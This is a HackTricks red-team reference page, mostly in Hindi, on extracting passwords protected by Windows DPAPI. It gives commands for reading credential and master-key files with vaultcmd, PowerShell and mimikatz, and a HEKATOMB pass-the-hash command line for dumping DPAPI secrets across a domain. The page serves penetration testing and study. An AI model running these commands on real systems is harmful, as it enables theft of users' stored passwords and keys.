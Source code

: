 # DPAPI - Extracting Passwords

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

## What is DPAPI

Data Protection API (DPAPI) मुख्य रूप से Windows ऑपरेटिंग सिस्टम के भीतर **असामान्य निजी कुंजियों के सममित एन्क्रिप्शन** के लिए उपयोग किया जाता है, जो उपयोगकर्ता या प्रणाली के रहस्यों को एंट्रॉपी के महत्वपूर्ण स्रोत के रूप में उपयोग करता है। यह दृष्टिकोण डेवलपर्स के लिए एन्क्रिप्शन को सरल बनाता है, जिससे वे उपयोगकर्ता के लॉगिन रहस्यों से निकाली गई कुंजी का उपयोग करके डेटा को एन्क्रिप्ट कर सकते हैं या, प्रणाली एन्क्रिप्शन के लिए, प्रणाली के डोमेन प्रमाणीकरण रहस्यों का उपयोग कर सकते हैं, इस प्रकार डेवलपर्स को एन्क्रिप्शन कुंजी की सुरक्षा का प्रबंधन करने की आवश्यकता को समाप्त कर देता है।

### Protected Data by DPAPI

DPAPI द्वारा संरक्षित व्यक्तिगत डेटा में शामिल हैं:

* Internet Explorer और Google Chrome के पासवर्ड और ऑटो-कंप्लीशन डेटा
* Outlook और Windows Mail जैसे अनुप्रयोगों के लिए ई-मेल और आंतरिक FTP खाता पासवर्ड
* साझा फ़ोल्डरों, संसाधनों, वायरलेस नेटवर्क और Windows Vault के लिए पासवर्ड, जिसमें एन्क्रिप्शन कुंजियाँ शामिल हैं
* दूरस्थ डेस्कटॉप कनेक्शनों, .NET पासपोर्ट, और विभिन्न एन्क्रिप्शन और प्रमाणीकरण उद्देश्यों के लिए निजी कुंजियों के लिए पासवर्ड
* Credential Manager द्वारा प्रबंधित नेटवर्क पासवर्ड और CryptProtectData का उपयोग करने वाले अनुप्रयोगों में व्यक्तिगत डेटा, जैसे Skype, MSN messenger, और अधिक

## List Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Credential Files

The **credentials files protected** could be located in:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
`mimikatz dpapi::cred` का उपयोग करके क्रेडेंशियल्स जानकारी प्राप्त करें, प्रतिक्रिया में आप दिलचस्प जानकारी पा सकते हैं जैसे कि एन्क्रिप्टेड डेटा और guidMasterKey।
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
आप **mimikatz module** `dpapi::cred` का उपयोग उचित `/masterkey` के साथ डिक्रिप्ट करने के लिए कर सकते हैं:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

DPAPI कुंजी जो उपयोगकर्ता की RSA कुंजियों को एन्क्रिप्ट करने के लिए उपयोग की जाती है, `%APPDATA%\Microsoft\Protect\{SID}` निर्देशिका के तहत संग्रहीत होती है, जहाँ {SID} उस उपयोगकर्ता का [**सुरक्षा पहचानकर्ता**](https://en.wikipedia.org/wiki/Security\_Identifier) है। **DPAPI कुंजी उसी फ़ाइल में संग्रहीत होती है जिसमें उपयोगकर्ताओं की निजी कुंजियों की सुरक्षा करने वाली मास्टर कुंजी होती है**। यह आमतौर पर 64 बाइट्स का यादृच्छिक डेटा होता है। (ध्यान दें कि यह निर्देशिका सुरक्षित है इसलिए आप इसे `dir` का उपयोग करके cmd से सूचीबद्ध नहीं कर सकते, लेकिन आप इसे PS से सूचीबद्ध कर सकते हैं)।
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
यह एक उपयोगकर्ता के कई मास्टर कुंजी कैसे दिखेंगे:

![](<../../.gitbook/assets/image (1121).png>)

आमतौर पर **प्रत्येक मास्टर कुंजी एक एन्क्रिप्टेड सममित कुंजी होती है जो अन्य सामग्री को डिक्रिप्ट कर सकती है**। इसलिए, **एन्क्रिप्टेड मास्टर कुंजी को निकालना** दिलचस्प है ताकि बाद में **उसके साथ एन्क्रिप्ट की गई अन्य सामग्री को डिक्रिप्ट किया जा सके**।

### मास्टर कुंजी निकालें और डिक्रिप्ट करें

मास्टर कुंजी निकालने और इसे डिक्रिप्ट करने के उदाहरण के लिए [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) पोस्ट देखें।

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) कुछ DPAPI कार्यक्षमता का C# पोर्ट है जो [@gentilkiwi](https://twitter.com/gentilkiwi) के [Mimikatz](https://github.com/gentilkiwi/mimikatz/) प्रोजेक्ट से है।

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) एक उपकरण है जो LDAP निर्देशिका से सभी उपयोगकर्ताओं और कंप्यूटरों को निकालने और RPC के माध्यम से डोमेन नियंत्रक बैकअप कुंजी निकालने को स्वचालित करता है। स्क्रिप्ट फिर सभी कंप्यूटरों के आईपी पते को हल करेगी और सभी कंप्यूटरों पर smbclient करेगी ताकि सभी उपयोगकर्ताओं के सभी DPAPI ब्लॉब्स को पुनः प्राप्त किया जा सके और सब कुछ डोमेन बैकअप कुंजी के साथ डिक्रिप्ट किया जा सके।

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

LDAP से निकाले गए कंप्यूटरों की सूची के साथ आप हर उप नेटवर्क को ढूंढ सकते हैं, भले ही आप उन्हें नहीं जानते हों!

"क्योंकि डोमेन एडमिन अधिकार पर्याप्त नहीं हैं। सभी को हैक करें।"

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) स्वचालित रूप से DPAPI द्वारा संरक्षित रहस्यों को डंप कर सकता है।

## संदर्भ

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने के मिशन** के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
